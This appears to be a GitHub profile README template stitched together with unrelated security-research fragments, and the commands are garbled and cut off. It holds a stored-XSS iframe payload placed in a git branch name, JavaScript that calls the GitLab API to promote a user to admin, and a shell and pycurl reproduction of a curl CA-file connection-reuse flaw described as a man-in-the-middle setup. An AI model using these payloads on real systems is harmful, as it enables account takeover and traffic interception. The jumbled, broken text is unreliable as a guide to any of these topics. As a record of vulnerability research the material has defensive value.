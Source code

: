 - 👋 Hi, I’m @rio-s-molana
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
rio-s-molana/rio-s-molana is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
echo "# rio-s-molana" >> README.md 
git init 
git add README.md 
git commit -m "first commit" 
git branch -M main 
git remote add Origin https://github.com/rio-s- molana/rio-s-molana.git
 git push -u asal main
	
<iframe/srcdoc='<script/src=/yvvdwf/data/-/jobs/552156057/artifacts/raw/alert.js></script>'></iframe>, misalnya,git push origin master:"'><iframe/srcdoc='<script/src=/yvvdwf/data/-/jobs/552156057/artifacts/raw/alert.js></script>'></iframe>"

https://gitlab.com/yvvdwf/store-xss-merge-request/-/merge_requests/1
var user_id=5212593;
console.log(`Set user ${user_id} to admin`);

var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = console.log;
xhttp.open("PUT", `/api/v4/users/${user_id}?admin=true`, true);
xhttp.send();
Improper Control of a Resource Through its Lifetime might fit.
CURLOPT_ISSUERCERT
CURLOPT_PINNEDPUBLICKEY sha256//
cp /etc/ssl/certs/ca-certificates.crt ca.crt
touch CA.crt
curl --capath /dev/null --cacert $PWD/ca.crt https://curl.se --next --capath /dev/null --cacert $PWD/CA.crt https://curl.se

cp /etc/ssl/certs/ca-certificates.crt ca.crt
touch CA.crt
curl --capath /dev/null --cacert $PWD/ca.crt https://curl.se --next --capath /dev/null --cacert $PWD/CA.crt https://curl.se
cp /etc/ssl/certs/ca-certificates.crt ca.crt
touch CA.crt
curl --capath /dev/null --cacert $PWD/ca.crt https://curl.se --next --capath /dev/null --cacert $PWD/CA.crt https://curl.se     blobcmp(data->cert_blob, needle->cert_blob) &&
     blobcmp(data->ca_info_blob, needle->ca_info_blob) &&https://github.com/curl/curl/commit/cac5374298b3e79405bbdabe38941227c73a4c96
https://github.com/curl/curl/commit/cb4e2be7c6d42ca0780f8e0a747cecf9ba45f151
#!/usr/bin/env python3

import pycurl

def main():
    # simulated attacker controlled connection with crafted CA.crt file
    c1 = pycurl.Curl()
    c1.setopt(pycurl.URL, "https://curl.se")
    c1.setopt(pycurl.CAINFO, '/tmp/CA.crt')

    # simulated connection in another security context that the attacker tries to MiTM
    c2 = pycurl.Curl()
    c2.setopt(pycurl.URL, "https://curl.se")
    c2.setopt(pycurl.CAINFO, '/tmp/ca.crt')

    m = pycurl.CurlMulti()
    m.add_handle(c1)

    while True:
        ret, num_handles = m.perform()
        if ret != pycurl.E_CALL_MULTI_PERFORM: break
    while num_handles:
        ret = m.select(1.0)
        if ret == -1: break
        while True:
            ret, num_handles = m.perform()
            if ret != pycurl.E_CALL_MULTI_PERFORM: break

        numq, oklist, errlist = m.info_read(2)
        if c1 in oklist:
            m.add_handle(c2)

if __name__ == "__main__":
    main()openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 to cre
